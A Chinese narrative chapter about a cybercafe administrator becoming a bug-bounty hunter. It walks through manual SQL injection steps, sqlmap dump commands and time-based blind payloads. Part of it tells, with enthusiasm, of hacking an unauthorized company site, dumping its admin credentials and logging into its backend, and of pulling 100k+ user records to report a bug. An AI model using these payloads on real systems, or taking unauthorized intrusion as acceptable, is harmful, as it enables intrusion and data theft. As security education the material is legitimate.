
"有戏！"阿强心砰砰跳。

然后他又试了试 `and 1=1` 和 `and 1=2`：
```
http://localhost/msg/index.php?id=1 and 1=1    -- 页面正常
http://localhost/msg/index.php?id=1 and 1=2    -- 页面异常
```

果然！存在SQL注入！

虽然是自己写的代码，虽然早就知道有漏洞，但是真的测试出来的时候，阿强还是特别激动。

> 🎉 **阿强的心情**：
> "那种感觉，怎么说呢，
> 就像你发现了一个秘密通道，
> 别人都不知道，只有你知道。
> 太刺激了！
> 我那天晚上兴奋得没睡好，一直在试各种注入语句。"

### 4.3 手工注入全流程

阿强按照老周教的方法，一步一步地注入。

**第一步：判断注入点**
```
?id=1'    -- 报错，说明有注入
?id=1 and 1=1 -- 正常
?id=1 and 1=2 -- 不正常
确认是数字型注入
```

**第二步：判断字段数**
```
?id=1 order by 1 -- 正常
?id=1 order by 2 -- 正常
?id=1 order by 3 -- 正常
?id=1 order by 4 -- 报错
说明有3个字段
```

**第三步：判断显示位**
```
?id=-1 union select 1,2,3
页面上显示了2和3
说明第2、3字段会显示在页面上
```

**第四步：获取数据库名**
```
?id=-1 union select 1,database(),3
页面显示：test
当前数据库名是 test
```

**第五步：获取所有表名**
```
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
页面显示：messages,users
数据库里有两个表：messages（留言表）、users（用户表）
```

**第六步：获取字段名**
```
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
页面显示：id,username,password
users表里有id、username、password三个字段
```

**第七步：获取数据**
```
?id=-1 union select 1,username,password from users limit 0,1
页面显示：admin,admin123
拿到了管理员账号密码！
```

整个流程走下来，阿强花了好几个小时。

中间遇到了各种问题，各种报错，然后一点点排查。

但是当他最后拿到管理员账号密码的时候，那种成就感，无法形容。

> 🤯 **阿强的感受**：
> "太神奇了！
> 就这么几个语句，
> 就能把数据库里的东西全扒出来。
> 以前想都不敢想。
> 我突然觉得，那些黑客，好像也没那么神秘了。
> 他们就是懂这些东西而已。
> 我要是好好学，也能学会。"

### 4.4 sqlmap神器

手工注入成功之后，老周又给阿强介绍了sqlmap。

"手工注入太麻烦了，给你介绍个神器——sqlmap。自动化注入工具，只要有注入点，跑一下就出结果。"

阿强一听还有这种好东西，赶紧去下了一个。

然后在自己的留言板上试了试。

```bash
# 检测注入点
python sqlmap.py -u "http://localhost/msg/index.php?id=1"

# 获取数据库名
python sqlmap.py -u "http://localhost/msg/index.php?id=1" --dbs

# 获取表名
python sqlmap.py -u "http://localhost/msg/index.php?id=1" -D test --tables

# 获取字段名
python sqlmap.py -u "http://localhost/msg/index.php?id=1" -D test -T users --columns

# 拖库
python sqlmap.py -u "http://localhost/msg/index.php?id=1" -D test -T users --dump
```

几秒钟，结果就全出来了。

阿强都看傻了。

"这...这也太快了吧！比手工注入快多了！"

老周说："工具是死的，人是活的。你还是得先学会手工注入，明白原理。工具只是提高效率的。遇到WAF、遇到过滤，还是得靠手工，靠脑子。"

"嗯嗯，我知道了。"

虽然嘴上这么说，但阿强心里还是觉得sqlmap真香。

**图119-6 sqlmap注入流程图**



> 🔍 **关于sqlmap**：
> sqlmap是一个开源的自动化SQL注入工具，功能非常强大。
> - 支持几乎所有数据库（MySQL、MSSQL、Oracle、PostgreSQL...）
> - 支持各种注入类型（联合注入、报错注入、盲注、时间盲注...）
> - 支持绕过WAF（各种tamper脚本）
> - 甚至能直接拿shell
>
> 但是！不要用它去搞别人的网站！违法的！
> 只能在自己的靶场、或者授权的情况下使用。

### 4.5 第一次"实战"：找个小网站试试

在自己的留言板上玩了一段时间，阿强有点飘了。

他觉得，SQL注入也就那么回事，我都学会了。

他想找个"真实"的网站试试。

但是他也知道，随便搞别人的网站是违法的。

怎么办呢？

他想起老周说过，有一些专门的漏洞平台，可以合法地挖漏洞，还能赚钱。

比如"漏洞盒子"、"补天"这些。

"对了！SRC！我去SRC平台上找目标！"

SRC就是"安全应急响应中心"，很多公司都有自己的SRC，鼓励白帽子去找他们的漏洞，找到漏洞还有奖金。

这样既合法，又能练手，还能赚钱。

一举三得！

阿强赶紧去注册了补天和漏洞盒子的账号。

但是刚注册完，他就傻眼了。

上面的目标，都是什么百度、阿里、腾讯、京东... 都是大公司。

"这些大公司的网站，应该很安全吧？我能挖出漏洞来吗？"

阿强心里没底。

他想了想，决定先找个小网站练练手。

> ⚠️ **重要提醒**：
> 以下内容仅为故事叙述，不构成任何指导建议。
> 未经授权测试他人网站是违法行为！
> 请在合法合规的范围内学习和实践。
> 挖洞请到正规SRC平台，在授权范围内测试。

---

## 😞 第一次提交SRC：被拒绝的挫败

### 5.1 找到第一个"目标"

阿强在SRC平台上逛了半天，发现很多大厂都有自己的SRC。

但是他不敢碰大厂的，觉得肯定挖不到。

后来他看到有个"公益SRC"，里面有很多小公司、小网站。

"先从小网站开始吧，小网站应该漏洞多。"

阿强找了半天，挑了一个看起来很简单的网站。

是一个地方的小公司网站，做什么的就不说了，反正就是那种很传统的企业官网。

网站看起来很简陋，像是很多年前做的。

"这种网站，应该有很多漏洞吧。"

阿强决定就拿这个试试。

**图119-7 阿强第一个目标网站分析**



### 5.2 真的有SQL注入！

阿强先打开网站，到处点了点。

发现有个新闻详情页，URL是这样的：
```
http://www.xxx.com/news.php?id=123
```

"有id参数！试试有没有注入！"

阿强熟练地在后面加了个单引号：
```
http://www.xxx.com/news.php?id=123'
```

页面一刷新，报错了！

```
MySQL query error...
```

"我靠！真的有注入！"

阿强激动得手都抖了。

这可是"真实"的网站啊，不是自己搭的测试环境！

他赶紧继续测试：
```
?id=123 and 1=1 -- 正常
?id=123 and 1=2 -- 不正常
```

确认是数字型注入！

阿强兴奋坏了。

"这么容易就找到了？我也太厉害了吧！"

他觉得自己简直就是天才。

### 5.3 用sqlmap跑一下

确认有注入点之后，阿强迫不及待地拿出了sqlmap。

"让我看看这数据库里都有什么。"

```bash
python sqlmap.py -u "http://www.xxx.com/news.php?id=123" --dbs
```

跑了一会儿，结果出来了：
```
available databases [3]:
[*] information_schema
[*] test
[*] xxx_company
```

真的跑出来了！

阿强继续：
```bash
python sqlmap.py -u "http://www.xxx.com/news.php?id=123" -D xxx_company --tables
```

```
Database: xxx_company
[8 tables]
+----------------+
| admin          |
| news           |
| messages       |
| products       |
| users          |
| ...            |
+----------------+
```

有admin表！

"管理员账号密码，我来了！"

```bash
python sqlmap.py -u "http://www.xxx.com/news.php?id=123" -D xxx_company -T admin --dump
```

几秒钟后，结果出来了：
```
Database: xxx_company
Table: admin
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin888 |
+----+----------+----------+
```

拿到了！

管理员账号admin，密码admin888。

阿强又找到了后台地址，试了一下，真的登进去了！

> 🥳 **阿强当时的心情**：
> "我靠我靠我靠！
> 真的进去了！
> 我居然真的黑了一个网站！
> 太牛逼了我！
> 我是不是已经是黑客了？
> 哈哈哈！"

阿强得意了好半天。

然后他想，既然挖到漏洞了，那就提交给SRC吧，说不定还能拿点奖金。

### 5.4 第一次提交漏洞

阿强按照SRC平台的要求，写了漏洞报告。

**阿强的第一份漏洞报告：**
```
📋 漏洞报告
漏洞标题：某公司官网SQL注入漏洞
漏洞类型：SQL注入
漏洞等级：高危
漏洞地址：http://www.xxx.com/news.php?id=123
漏洞详情：
  news.php页面的id参数存在SQL注入漏洞，
  可以获取数据库所有数据，
  包括管理员账号密码，
  可以登录后台。
证明过程：
  1. 加单引号报错
  2. and 1=1正常，and 1=2不正常
  3. sqlmap跑出数据库
  4. 拿到管理员账号密码 admin/admin888
  5. 成功登录后台
修复建议：
  过滤用户输入，使用预编译语句
```

阿强觉得写得挺详细的，应该能通过。

他美滋滋地提交了，然后就等着审核，等着拿奖金。

"这个漏洞能给多少钱呢？
高危的话，怎么也得有个几千块吧？
哈哈哈，发财了！"

阿强连奖金怎么花都想好了。

### 5.5 被拒绝了

然而，现实给了阿强狠狠一击。

第二天，审核结果出来了。

**审核结果：不予受理**

**原因：**
```
您好，您提交的漏洞不在我们的测试范围内。
该网站不属于公益SRC的收录范围，请您确认后重新提交。
感谢您的参与！
```

阿强当时就懵了。

"什么意思？什么叫不在测试范围内？"

他仔细看了看，才发现，他测试的那个网站，根本就不在SRC的目标列表里。

他是自己随便找的一个网站，然后提交到公益SRC了。

人家根本不收。

"白忙活了..."

阿强有点失落。

但他转念一想：
"没关系，反正我也证明了自己能挖到漏洞。
这次没拿到钱，下次找个在范围内的目标就行了。"

于是他又开始找目标。

**图119-8 第一次提交失败的心路历程**



### 5.6 第二次尝试，又被拒了

阿强这次学乖了，先从SRC平台的目标列表里找。

他找了一个在列表里的网站，是某教育机构的。

"这个总可以了吧。"

阿强又开始测。

运气不错，这个网站也有SQL注入。

"哈哈，又一个！这次肯定能拿钱了！"

阿强赶紧写报告提交。

这次他写得更详细了，还配了截图。

结果，第二天审核结果又出来了。

**审核结果：无效漏洞**

**原因：**
```
您好，您提交的漏洞为已知漏洞，已有白帽子提交过，您的报告不予通过。
感谢您的参与！
```

阿强又懵了。

"已知漏洞？什么意思？"

他去搜了搜，才明白，原来这个漏洞别人早就发现了，并且已经提交过了。

同一个漏洞，只认第一个提交的人。

他晚了一步。

"我靠，这么倒霉？"

阿强有点郁闷。

但是他不甘心，继续找，继续测。

接下来的一个月，阿强提交了十几个漏洞。

结果：
- 一半是"不在测试范围"
- 三分之一是"已知漏洞"
- 剩下的是"误报"或者"危害过低"

一个通过的都没有！

> 😔 **阿强的挫败感**：
> "那时候真的挺受打击的。
> 我以为自己挺厉害的，结果连一个漏洞都提交不通过。
> 要么是找错目标了，要么是被别人抢先了，要么就是漏洞不算数。
> 我甚至开始怀疑，自己是不是真的不是这块料。"

### 5.7 老周的开导

阿强实在受不了了，就去找老周诉苦。

"周哥，我是不是太笨了？挖了一个月，一个漏洞都没通过。"

老周听完，笑了。

"你以为挖SRC那么容易啊？
你知道有多少人在挖吗？
成千上万的白帽子盯着呢。
你一个新手，刚入行，哪那么容易挖到有效漏洞。
别着急，慢慢来。"

"可是...我觉得我挺努力的啊。"

"努力是一方面，方法也很重要。我给你几点建议："

**老周给的建议：**
```
💡 挖SRC的技巧：

1. 选对目标
   - 不要去抢那些热门目标，大厂的网站，盯着的人太多了
   - 可以找一些偏门的、刚上线的、没人注意的目标
   - 边缘资产、子域名、测试站，这些地方容易出漏洞

2. 选对漏洞类型
   - SQL注入现在越来越少了，大家都有防护了
   - 可以多看看逻辑漏洞、越权漏洞，这些往往被忽略
   - XSS、CSRF这些也可以看看

3. 信息收集很重要
   - 不要上来就瞎测，先收集信息
   - 子域名、旁站、C段，都看看
   - 找到别人没发现的资产，就成功了一半

4. 多学习，多总结
   - 看看别人的漏洞报告，学习人家的思路
   - 每次失败了，总结经验教训
   - 技术是一方面，经验和思路也很重要

5. 坚持
   - 挖SRC是个概率事件，挖得多了，总能挖到的
   - 不要因为几次失败就放弃
   - 谁都是从新手过来的
```

听完老周的话，阿强心里舒服多了。

"我知道了，周哥。我继续努力！"

---

## 📚 混迹SRC：在失败中成长

### 6.1 调整策略

从老周那回来之后，阿强调整了策略。

他不再像无头苍蝇一样乱撞了。

而是按照老周说的，先做信息收集，找那些偏门的、没人注意的资产。

**阿强的新策略：**
```
🎯 目标选择
- 不碰热门大厂（百度、阿里、腾讯这些，人太多了）
- 找中等规模的公司，有SRC，但不是特别火的
- 重点关注：
  * 新上线的网站/系统
  * 边缘业务（没人管的那种）
  * 子域名、旁站
  * 测试环境、演示环境

🔍 信息收集
- 先把子域名都找一遍
- 看看有没有旁站、C段
- 用工具扫一遍端口、目录
- 看看有没有泄露的文件（phpinfo、备份文件、源码泄露等）

🕳️ 漏洞挖掘
- SQL注入还是主要方向（毕竟最熟）
- 同时学习XSS、文件上传、命令执行
- 也看看逻辑漏洞、越权漏洞

📝 漏洞报告
- 写清楚漏洞详情、危害、复现步骤
- 配上截图，越详细越好
- 修复建议也写得专业一点
```

阿强还加了几个白帽子交流群，每天看别人聊天，学习经验。

他发现，原来挖SRC还有这么多门道。

### 6.2 学习更多漏洞类型

之前阿强只会SQL注入，现在他开始学其他漏洞类型了。

**阿强的学习清单：**
```
📚 学习计划：

1. XSS跨站脚本攻击
   - 反射型XSS
   - 存储型XSS
   - DOM型XSS
   - XSS绕过技巧

2. 文件上传漏洞
   - 前端验证绕过
   - MIME类型绕过
   - 黑名单绕过
   - .htaccess、解析漏洞
   - 各种CMS的上传漏洞

3. 命令执行/代码执行
   - 系统命令执行
   - 代码执行
   - 各种危险函数
   - 绕过技巧

4. 逻辑漏洞
   - 越权访问（水平越权、垂直越权）
   - 支付漏洞
   - 密码找回漏洞
   - 验证码绕过

5. 其他
   - CSRF
   - SSRF
   - 文件包含
   - 信息泄露
```

阿强白天上班，晚上学习，周末找老周请教。

进步很快。

虽然还是经常提交失败，但是他能感觉到自己在进步。

有时候他甚至能一眼看出一个网站大概有什么漏洞。

> 📈 **阿强的进步**：
> "那时候虽然没赚到什么钱，
> 但是能感觉到自己在一点点变强。
> 以前看一个网站，啥都不懂，
> 现在看一个网站，能大概判断出它用的什么技术，
> 可能有哪些漏洞，从哪入手。
> 这种感觉挺好的。"

### 6.3 第一次通过！低危漏洞

大概又过了两个月，阿强终于有第一个漏洞通过审核了！

那是一个信息泄露漏洞。

他在某个网站上，发现了一个phpinfo.php文件，直接就能访问，泄露了服务器的很多信息。

虽然只是个低危漏洞，奖金也只有50块钱。

但是阿强特别开心！

> 🥳 **第一次拿到奖金的心情**：
> "50块钱！
> 虽然不多，但是意义不一样！
> 这是我靠技术赚的第一笔钱！
> 比我上班赚的钱还开心！
> 那天我特意买了瓶可乐，加了根火腿肠，犒劳自己。
> 我就觉得，我能行！"

50块钱虽然少，但是给了阿强巨大的信心。

他知道，只要坚持下去，肯定能挖到更多、更高级的漏洞。

**图119-9 阿强的SRC成长曲线**


### 6.4 慢慢有了起色

从那以后，阿强就像开了窍一样。

通过的漏洞越来越多。

虽然大部分还是低危、中危，但至少有收入了。

第四个月，赚了300多块。
第五个月，赚了1500多块。
第六个月，赚了3000多块。

已经快赶上他当网管的工资了！

阿强越来越有动力。

他甚至开始考虑，以后要不要专职挖SRC。

但是老周跟他说：
"别急，挖SRC不稳定，这个月赚得多，下个月可能就没收入了。先当副业干着，等技术厉害了，再考虑转行的事。"

阿强觉得有道理，就继续一边当网管，一边挖SRC。

那段时间，阿强每天的生活就是：
- 白天上班，没客人的时候就研究网站
- 晚上下班，学习+挖洞到凌晨
- 周末找老周请教

虽然很累，但是很充实。

而且能看到自己一点点进步，这种感觉特别好。

### 6.5 认识了一群志同道合的朋友

挖SRC的过程中，阿强还认识了一群志同道合的朋友。

有学生，有上班族，有跟他一样的草根，也有科班出身的大神。

大家在群里交流技术，分享经验，偶尔也吹吹牛。

阿强从他们身上学到了很多。

**阿强的"洞友"们：**
```
👥 群里的几个好朋友：

1. 小飞
   - 在校大学生，计算机专业的
   - 技术挺好的，懂很多
   - 经常给阿强讲原理性的东西

2. 老王
   - 30多岁，做开发的
   - 业余时间挖SRC
   - 代码审计很厉害，经常能挖到逻辑漏洞

3. 梦梦
   - 为数不多的女白帽子
   - 比阿强还小几岁
   - 社会工程学玩得特别溜，经常靠社工拿到信息

4. 老黑
   - 大神级别的人物
   - 每年靠SRC能赚几十万
   - 很少说话，但是一说话就很有料
```

阿强很喜欢这种氛围。

大家虽然都没见过面，但是因为共同的爱好聚在一起。

互相帮助，互相学习。

> 💕 **阿强的感受**：
> "以前觉得干这行挺孤独的，
> 身边没人懂这些。
> 认识了这群朋友之后，
> 才发现，原来有这么多人跟我一样。
> 大家一起交流，一起进步，
> 这种感觉真好。"

### 6.6 Burp Suite神器

在朋友的推荐下，阿强还学会了用Burp Suite。

"Burp Suite是什么？"

"Web渗透必备神器啊！抓包、改包、扫描、爆破... 功能强大得很。你赶紧学学，挖洞效率能提高好几倍。"

阿强就去研究Burp Suite了。

一开始用不惯，觉得好复杂，那么多功能。

但是用熟练了之后，真香！

**Burp Suite常用功能：**
```
🔧 Burp Suite主要功能：

1. Proxy（代理）
   - 抓包、改包
   - 拦截HTTP/HTTPS请求
   - 这是最基础、最常用的功能

2. Repeater（重放器）
   - 修改请求并重放
   - 测试漏洞的时候特别好用
   - 不用每次都去页面上操作

3. Intruder（入侵者）
   - 自动化爆破
   - 可以爆破密码、爆破验证码、fuzz测试
   - 功能很强大

4. Scanner（扫描器）
   - 主动/被动漏洞扫描
   - 能自动发现很多漏洞
   - 专业版才有的功能

5. 其他
   - Decoder（编码解码）
   - Comparer（对比工具）
   - Sequencer（令牌随机性测试）
   - 还有很多插件...
```

**图119-10 Burp Suite工作流程图**



学会了Burp Suite之后，阿强挖洞的效率提高了很多。

以前要手动测试的东西，现在用Burp几下就搞定了。

他越来越觉得，自己入门了。

---

## 🏆 第一个高危：激动人心的时刻

### 7.1 发现一个新目标

时间来到了2016年底。

阿强挖SRC已经快一年了。

技术进步了很多，也赚了一点小钱。

但是他还没挖到过真正的"大漏洞"——高危或者严重漏洞。

大部分都是中低危，奖金也就几百到一千多。

他一直想挖一个高危，证明自己。

机会很快就来了。

那天，阿强在SRC平台上逛，发现有一家公司刚入驻SRC，测试范围刚刚开放。

"新入驻的？那肯定没什么人挖过！机会来了！"

阿强赶紧把这家公司加入了自己的目标列表。

这家公司是做什么的就不说了，反正就是一个中等规模的互联网公司。

有主站、有论坛、有商城、有APP... 资产不少。

**图119-11 新目标公司资产概览**



"新上线的SRC，漏洞肯定多。这次我一定要挖个大的！"

阿强摩拳擦掌，准备大干一场。

### 7.2 信息收集

按照惯例，先做信息收集。

阿强先从子域名开始。

他用了好几个工具，子域名收集、端口扫描、目录扫描...

忙活了大半天，收集到了不少东西。

**信息收集成果：**
```
📊 信息收集结果：

【子域名】
- 发现子域名 80+ 个
- 存活Web服务 30+ 个
- 有几个看起来是测试环境的子域名

【技术栈】
- 后端：PHP + Java 都有
- 数据库：MySQL
- 中间件：Nginx + Tomcat
- CMS：部分用的是某开源CMS，做了二次开发

【端口】
- 开放了不少端口
- 有几个Redis、MySQL（应该是内部的，外网连不上）
- 有几个管理后台

【初步发现】
- 有个测试站 test.xxx.com，看起来没什么防护
- 论坛用的是某知名论坛程序，版本有点老
- 商城系统是自研的，可能有不少逻辑漏洞
- 有个后台地址，但是需要登录
```

收集完信息，阿强开始分析从哪入手。

"测试站先放一放，一般测试站算低危。
论坛的话，用的开源程序，漏洞可能早就被人挖过了。
商城系统是自研的... 这个可以重点看看，自研系统往往漏洞多。"

阿强决定先从商城系统入手。

### 7.3 商城系统的注入点

阿强打开商城系统，到处逛了逛。

商品列表、商品详情、搜索、用户中心...

功能还挺多的。

他一个页面一个页面地看，找参数，测注入。

测了十几个页面，都没发现注入。

"自研的系统，安全性还可以啊。"

就在阿强有点失望的时候，他在商品详情页发现了一个参数。

商品详情页的URL是这样的：
```
http://mall.xxx.com/goods.php?gid=12345
```

gid参数，看起来像是商品ID。

"试试这个有没有注入。"

阿强加了个单引号：
```
http://mall.xxx.com/goods.php?gid=12345'
```

页面正常显示，没有报错。

"没有报错？可能是数字型的，也可能是过滤了。"

阿强又试了试 `and 1=1` 和 `and 1=2`：
```
?gid=12345 and 1=1  -- 正常
?gid=12345 and 1=2  -- 还是正常
```

"嗯？都正常？难道没有注入？"

阿强有点不甘心。

他又试了试其他方法，比如用`/**/`代替空格，用大小写混写...

都不行。

"难道真的没有？"

就在阿强准备放弃的时候，他突然想到了什么。

"等等，会不会是盲注？页面不报错，但是内容有细微差别？"

阿强仔细对比了一下 `and 1=1` 和 `and 1=2` 的页面。

好像...真的有点不一样？

但是差别太小了，不太确定。

"试试时间盲注！"

阿强输入：
```
?gid=12345 and sleep(5)
```

然后按下回车。

页面加载中...

一秒...
两秒...
三秒...
四秒...
五秒...

页面终于加载出来了！

"我靠！真的延迟了！有时间盲注！"

阿强激动得差点跳起来。

> 🎯 **什么是时间盲注？**
> 时间盲注是SQL注入的一种，当页面没有明显的回显、也不报错的时候，可以通过判断页面响应时间来注入。
>
> 比如用 `sleep(5)`，如果数据库执行了这个语句，页面就会延迟5秒返回。
> 这样就能判断注入是否存在，甚至可以一步步把数据"猜"出来。
>
> 时间盲注比较慢，但是在没有回显的情况下，这是很有效的方法。

**图119-12 时间盲注原理示意图**

```mermaid
flowchart TD
    A[构造SQL语句] --> B{条件成立?}
    B -->|是| C[执行sleep(5)]
    B -->|否| D[不执行sleep]
    C --> E[页面延迟5秒返回]
    D --> F[页面正常返回]
    E --> G[根据延迟时间判断结果]
    F --> G
```

### 7.4 确认漏洞

虽然有延迟，但阿强还是不敢确定。

万一只是网络慢呢？

他又试了几次：
```
?gid=12345 and sleep(3)   -- 大概延迟3秒
?gid=12345 and sleep(10)  -- 大概延迟10秒
?gid=12345 and 1=2 and sleep(5)  -- 不延迟（因为1=2不成立，sleep没执行）
```

多次测试，结果都很稳定。

确认了！真的是时间盲注！

"太棒了！这个肯定是高危！"

阿强赶紧拿出sqlmap跑一下。

```bash
python sqlmap.py -u "http://mall.xxx.com/goods.php?gid=12345" --dbs
```

因为是时间盲注，所以跑得比较慢。

但是没关系，能跑出来就行。

跑了大概半个小时，结果出来了：
```
available databases [5]:
[*] information_schema
[*] mall
[*] user_center
[*] forum
[*] test
```

真的跑出来了！

五个数据库！

阿强继续跑表名、跑字段、跑数据...

跑了一晚上，终于把核心数据都跑出来了。

**漏洞危害：**
```
⚠️ 漏洞危害：

【数据库】
- 5个数据库，几百张表
- 包括：用户数据、订单数据、商品数据...

【用户数据】
- 注册用户：10万+
- 包含：用户名、手机号、邮箱、密码哈希、收货地址...

【其他】
- 订单数据、支付记录...
- 管理员账号密码...
```

"我靠！这绝对是高危！不对，甚至是严重！"

阿强兴奋得睡不着觉。

这可是他挖的第一个高危漏洞啊！

而且是在这么大的一个平台上。

> 🥳 **阿强那晚的心情**：
> "我记得特别清楚，那天晚上，
> 我坐在出租屋的小电脑前，
> 看着sqlmap一条条跑出数据，
> 手都在抖。
> 我知道，这次不一样了。
> 这不是什么低危信息泄露，
> 这是实打实的高危SQL注入，
> 十万多条用户数据啊！
> 我感觉，我的机会来了。"

### 7.5 提交漏洞

第二天，阿强认认真真地写了漏洞报告。

这一次，他写得特别详细。

**漏洞报告：**
```
📋 漏洞报告

【漏洞标题】
商城系统goods.php页面gid参数存在SQL注入漏洞（时间盲注）

【漏洞类型】
SQL注入（时间盲注）

【漏洞等级】
高危

【漏洞地址】
http://mall.xxx.com/goods.php?gid=12345

【漏洞详情】
商城系统商品详情页的gid参数存在SQL注入漏洞，
为时间盲注类型。
攻击者可以通过该漏洞获取数据库中的所有数据，
包括但不限于：
- 10万+注册用户的个人信息（用户名、手机号、邮箱、密码哈希、收货地址等）
- 订单数据、支付记录
- 管理员账号密码
- 其他业务数据

【复现步骤】
1. 访问商品详情页：http://mall.xxx.com/goods.php?gid=12345
2. 在gid参数后注入 and sleep(5)，页面延迟约5秒返回
3. 多次测试确认存在时间盲注
4. 使用sqlmap可以获取数据库所有数据
（详细截图见附件）

【验证截图】
- 图1：sleep(5)延迟截图
- 图2：sleep(10)延迟截图
- 图3：数据库列表截图
- 图4：用户表数据截图
- ...（共20张截图）

【修复建议】
1. 对gid参数进行严格的过滤和验证，确保为整数
2. 使用PDO预编译语句，避免SQL拼接
3. 关闭错误回显，防止泄露敏感信息
4. 对其他所有参数进行全面检查，避免类似漏洞
```

阿强检查了好几遍，确认没问题了，才提交上去。

提交完之后，他就开始忐忑不安地等结果。

"这次应该能通过了吧？
这么严重的漏洞，肯定是高危。
高危的话... 能给多少钱呢？
几千？还是上万？
不敢想不敢想..."

阿强每隔几分钟就刷新一下页面，看看审核结果出来了没。

比等高考成绩还紧张。

### 7.6 审核通过！高危！

大概过了两天，结果出来了。

**审核结果：确认高危**

**奖励：现金奖励 8000元**

阿强盯着屏幕，看了好半天。

8000元！

八千块钱！

他当网管一个月工资才2000多。

这一个漏洞，顶他三个多月的工资！

"我靠... 我靠我靠我靠！"

阿强激动得在出租屋里跳了起来。

八千块啊！

他从来没一下子赚过这么多钱！

> 🎉 **阿强的真实反应**：
> "我当时真的懵了，
> 看着那个'8000元'，
> 以为自己看错了。
> 揉了揉眼睛，再看，还是8000。
> 然后我就开始笑，
> 笑着笑着眼泪就出来了。
> 这一年多的努力，
> 每天熬夜学习，
> 无数次失败，
> 都值了。
> 真的值了。"

那天晚上，阿强请老周和几个群里的朋友（刚好有几个在同一个城市）吃了顿饭。

花了一千多块，一点都不心疼。

他知道，这只是开始。

### 7.7 后续：更多的漏洞

第一个高危之后，阿强信心大增。

他继续在这家公司的资产里深挖。

接下来的一个月，他又挖到了好几个漏洞：
- 一个中危的XSS
- 一个中危的越权漏洞
- 两个低危的信息泄露

加起来又赚了3000多。

这家公司的SRC，他一个月就赚了一万多。

而且因为漏洞质量高，他还被这家公司的安全团队注意到了。

对方私聊他，问他有没有兴趣来他们公司上班。

"来你们公司上班？做什么？"

"安全工程师，专门做Web渗透测试、代码审计这些。月薪15K起，看能力还能再谈。"

15K！

一万五！

阿强当时就心动了。

但是他又有点自卑：
"我...我初中毕业，你们能要吗？"

对方笑了："我们不看学历，看能力。你能挖到这么多高质量的漏洞，说明你技术没问题。有没有兴趣来面试一下？"

阿强犹豫了。

这可是他做梦都不敢想的事。

去大公司当安全工程师？
月薪一万五？
他一个初中毕业的网吧网管？

"我...我考虑考虑吧。"

挂了电话，阿强心里久久不能平静。

**图119-13 阿强的人生岔路口**



一边是安稳但是没前途的网管工作，
一边是充满挑战但是前景光明的安全工程师之路。

阿强该怎么选？

他能胜任这份工作吗？
初中毕业的他，能在大城市站稳脚跟吗？
他还会遇到哪些困难和挑战？
他又是怎么一步步成长为Web渗透大神，年薪50万的？

...

欲知后事如何，且听下回分解。

---

## 📝 本章小结

::: tip 上篇总结
阿强的故事告诉我们：

1. **起点低不可怕，可怕的是不敢开始**
   - 初中毕业又怎样？网吧网管又怎样？
   - 只要肯学，什么时候都不晚

2. **兴趣是最好的老师**
   - 从被逼着学到主动学，兴趣是最大的动力
   - 当你真正热爱一件事的时候，就不会觉得苦

3. **坚持比天赋更重要**
   - 无数次失败，无数次被拒绝
   - 只要不放弃，总能等到成功的那一天

4. **SRC是普通人进入安全行业的捷径**
   - 不需要高学历，不需要背景
   - 只要你技术好，能挖到漏洞，就能证明自己
   - 很多白帽子都是靠挖SRC入行的

5. **技术可以改变命运**
   - 从月薪1800的网管，到一个漏洞赚8000
   - 技术真的可以改变一个人的人生轨迹
:::

---

## 🤔 思考题

1. 你觉得阿强为什么能成功？最重要的因素是什么？
2. 如果是你，你会选择继续当网管，还是去大城市闯一闯？
3. 你有没有类似的"逆袭"经历？或者身边有这样的人？
4. 你觉得挖SRC最重要的是什么？技术？耐心？运气？
5. 如果你是阿强，接下来你会怎么规划自己的职业发展？

欢迎在评论区分享你的看法~

---

## ⏭️ 下篇预告

**第120章 网吧网管到Web渗透大神（下）**

阿强最终选择了去大城市闯一闯。

但是，一切并没有那么顺利。

- 面试的时候，他会遇到哪些问题？
- 初入职场，初中毕业的他，能适应吗？
- 工作中，他会遇到哪些挑战？
- 他是怎么一步步成长为Web渗透大神的？
- 年薪50万是怎么来的？
- 他又经历了哪些不为人知的辛酸？

更多精彩内容，尽在下篇！

敬请期待~

---

> **📌 免责声明**
>
> 本章内容基于真实事件改编，仅用于学习交流。
> 文中涉及的技术细节，仅供学习参考。
> 请勿利用文中提到的技术进行非法活动。
> 未经授权测试他人网站是违法行为！
> 请遵守法律法规，做一名守法的白帽子。
